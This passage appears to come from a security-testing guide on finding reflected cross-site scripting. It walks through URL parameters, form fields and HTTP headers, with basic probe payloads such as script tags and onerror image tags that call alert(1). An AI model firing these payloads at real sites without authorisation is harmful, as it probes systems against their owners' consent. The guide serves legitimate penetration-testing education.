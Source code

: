 #### URL Parameter Tests

Test user input being reflected in the page through URL parameters:

```javascript
# Identify reflection points in URL parameters
site.com/page?search=TEST     # Search parameters
site.com/page?name=TEST       # User input fields
site.com/page?id=TEST         # ID parameters

# Test basic XSS payload in each parameter
site.com/page?search=<script>alert(1)</script>
site.com/page?name="><script>alert(1)</script>
site.com/page?id=</script><script>alert(1)</script>

# Check if payload executes or gets reflected
# - If script executes: Direct XSS possible
# - If script is visible: HTML encoding might be in place
# - If script disappears: Filtering is active
```

#### Form Input Tests

Test all input fields in forms for XSS:

```javascript
# Identify form fields
<input type="text">           # Text inputs
<input type="search">         # Search boxes
<textarea>                    # Text areas

# Test each field with detection payloads
"><img src=x onerror=alert(1)>    # Tests quote escape
'><img src=x onerror=alert(1)>    # Tests single quote escape
javascript:alert(1)                # Tests href attributes

# Step 3: Observe the response
# - Check page source for payload reflection
# - Check if input is encoded
# - Check browser console for errors
```

#### HTTP Header Tests

Test headers that might be reflected in the response:

```javascript
# Test common reflected headers
User-Agent: <script>alert(1)</script>
Referer: <script>alert(1)</script>
Cookie: <script>alert(1)</script>

# Test custom headers
X-Forwarded-For: <script>alert(1)</script>
X-Forwarded-Host: <script>alert(1)</script>

# Check response headers and body
# - Look for header values in page source
# - Check for reflections in error messages
```
